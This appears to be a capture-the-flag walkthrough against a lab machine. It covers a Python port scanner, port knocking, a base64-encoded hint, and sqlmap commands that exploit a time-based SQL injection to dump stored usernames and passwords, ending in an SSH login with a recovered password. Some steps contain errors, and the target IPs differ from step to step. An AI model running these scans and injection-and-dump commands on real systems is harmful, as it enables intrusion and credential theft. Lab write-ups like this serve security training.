procedure
we made a simple port knocking script so that we can test our theory that will help us find if there are ports open if we knock them:
import socket
# function for trying the port is open or not
def try_port(port):
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.settimeout(0.1)
try:
s.connect(('ip',port))
except socket.error:
#print("Port is closed")
return False
try:
data = s.recv(4096)
#print("port is open! received the data")
s.close()
return True
except socket.timeout:
#print("Port is open but timed out")
s.close()
#data = ""
return True
#return data
# function that'll scan every port from 1 to 65535 , range is exclusive for the last so that's why 65536
def scan():
found_ports =[]
for port in range(1,65536):
connected = try_port(port)
if connected:
found_ports.append(port)
return found_ports
and we converted it to base64 to decode it later and copied it to our clipboard , {classical ctf trick}:
base64 port_scanner.py
base64 port_scanner.py | tr -d "\n"
base64 port_scanner.py | tr -d "\n" | xclip -selection clipboard
giving us:
we can decrypt it via:
echo “aW1wb3J0IHNvY2tldAoKIyBmdW5jdGlvbiBmb3IgdHJ5aW5nIHRoZSBwb3J0IGlzIG9wZW4gb3Igbm90CmRlZiB0cnlfcG9ydChwb3J0KToKICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkKICAgIHMuc2V0dGltZW91dCgwLjEpCiAgICB0cnk6CiAgICAgICAgcy5jb25uZWN0KCgnaXAnLHBvcnQpKQogICAgZXhjZXB0IHNvY2tldC5lcnJvcjoKICAgICAgICAjcHJpbnQoIlBvcnQgaXMgY2xvc2VkIikKICAgICAgICByZXR1cm4gRmFsc2UKICAgIHRyeToKICAgICAgICBkYXRhID0gcy5yZWN2KDQwOTYpCgogICAgICAgICNwcmludCgicG9ydCBpcyBvcGVuISByZWNlaXZlZCB0aGUgZGF0YSIpCiAgICAgICAgcy5jbG9zZSgpCiAgICAgICAgcmV0dXJuIFRydWUKICAgIGV4Y2VwdCBzb2NrZXQudGltZW91dDoKICAgICAgICAjcHJpbnQoIlBvcnQgaXMgb3BlbiBidXQgdGltZWQgb3V0IikKICAgICAgICBzLmNsb3NlKCkKICAgICAgICAjZGF0YSA9ICIiCiAgICAgICAgcmV0dXJuIFRydWUKICAgICNyZXR1cm4gZGF0YQoKIyBmdW5jdGlvbiB0aGF0J2xsIHNjYW4gZXZlcnkgcG9ydCBmcm9tIDEgdG8gNjU1MzUgLCByYW5nZSBpcyBleGNsdXNpdmUgZm9yIHRoZSBsYXN0IHNvIHRoYXQncyB3aHkgNjU1MzYKZGVmIHNjYW4oKToKICAgIGZvdW5kX3BvcnRzID1bXQogICAgZm9yIHBvcnQgaW4gcmFuZ2UoMSw2NTUzNik6CiAgICAgICAgY29ubmVjdGVkID0gdHJ5X3BvcnQocG9ydCkKICAgICAgICBpZiBjb25uZWN0ZWQ6CiAgICAgICAgICAgIGZvdW5kX3BvcnRzLmFwcGVuZChwb3J0KQogICAgcmV0dXJuIGZvdW5kX3BvcnRzCg==” | bash64 -d > scan.py
didn't work but but we found a tool that woulf help us do this thing:
 what we did was knocked these ports and this new port was now open , just like the code knocks to get entry in some exclusive bars
though we cannot visit the site , think it's like binded via name or something but dns error doesn't shows up, we can still curl:

this is what it looks like to do curl with the same file:
 I think it's shell password
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
looks like base64:

doubly encoded:

we get this when we visit the site:

when we look it in person:

feeling is coming for sql injection , check the intution via sqlmap:
sqlmap --url http://192.168.82.101:1337/978345210/index.php --forms --dbs --level=5 --risk=3 --batch
The command sqlmap is a popular open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications. It is primarily used to test the security of web applications and identify potential vulnerabilities related to SQL injection.
Here's a breakdown of the command and its options:
--url http://10.0.0.28:1337/978345210/index.php: Specifies the URL of the target web application to be tested.
--forms: Instructs sqlmap to identify and exploit SQL injection vulnerabilities within web forms.
--dbs: Requests sqlmap to enumerate the available databases on the target server.
--level=5: Sets the level of tests to perform. Higher values indicate more thorough and intensive testing.
--risk=3: Sets the risk level for tests. Higher values increase the likelihood of finding vulnerabilities, but may also cause more false positives.
--batch: Runs sqlmap in batch mode, which means it will not prompt for user input and instead rely on automatic detection and exploitation.
Overall, this command instructs sqlmap to target the specified URL, identify SQL injection vulnerabilities within web forms, enumerate databases, perform thorough testing with high risk level, and run in batch mode without requiring user interaction.
we can also try:
sqlmap --har=sqlmap.log --data="username=test&password=test&submit=+Login+" --url="http://192.168.82.101:1337/978345210/index.php" --banner --level=5 --risk=3 -v3 --dbms=mysql
The command sqlmap in this example is used with various options to perform a targeted SQL injection attack on a web application. Let's break down the options used:
--har=sqlmap.log: Specifies the input file containing the captured HTTP request in HAR (HTTP Archive) format. The HAR file is usually generated by intercepting web traffic using tools like Burp Suite or Chrome Developer Tools. The file sqlmap.log contains the captured request information that will be used by sqlmap for the attack.
--data="username=test&password=test&submit=+Login+": Provides the POST data to be used in the SQL injection attack. It simulates a form submission with the specified data.
--url="http://10.183.0.214:1337/978345210/index.php": Specifies the target URL of the web application to be attacked.
--banner: Displays the DBMS (Database Management System) banner retrieved during the scan.
--level=5: Sets the level of tests to perform. Higher values indicate more thorough and intensive testing.
--risk=3: Sets the risk level for tests. Higher values increase the likelihood of finding vulnerabilities but may also cause more false positives.
-v3: Sets the verbosity level of the output. Level 3 provides detailed output during the scanning process.
--dbms=mysql: Specifies the database management system (DBMS) to be targeted. In this case, the target DBMS is MySQL.
Overall, this command instructs sqlmap to use the captured request information from the HAR file, target the specified URL, perform a SQL injection attack using the provided POST data, display the DBMS banner, perform thorough testing with a high risk level, provide detailed output during the scan, and focus on exploiting vulnerabilities specific to MySQL.
we get it's a time based SQLi :

we'll have to use the sqlmap to retrive out the database info too:
sqlmap --har=sqlmap.log --data="username=test&password=test&submit=+Login+" --url="http://192.168.82.101:1337/978345210/index.php" -v3 --dbms=mysql --time-sec=1 --dbs
we get:

let's try the Webapp table and dump it's creds:
sqlmap --data="username=test&password=test&submit=+Login+" --url="http://192.168.82.101:1337/978345210/index.php" -v3 --dbms=mysql --time-sec=1 -D Webapp --tables

now it's time to check the rows and columns:
sqlmap --data="username=test&password=test&submit=+Login+" --url="http://192.168.82.101:1337/978345210/index.php" -v3 --dbms=mysql --time-sec=1 -D Webapp -T Users --columns
we get:

then we dump them:
sqlmap --har=sqlmap.log --data="username=test&password=test&submit=+Login+" --url="http://192.168.82.101:1337/978345210/index.php" -v3 --dbms=mysql --time-sec=1 -D Webapp -T Users -C id,username,password --dump
we get:

we already enumerated the username smeagol from the login screen , trying ssh:
MyPreciousR00t
yes it's right and we also found something in the root directory:
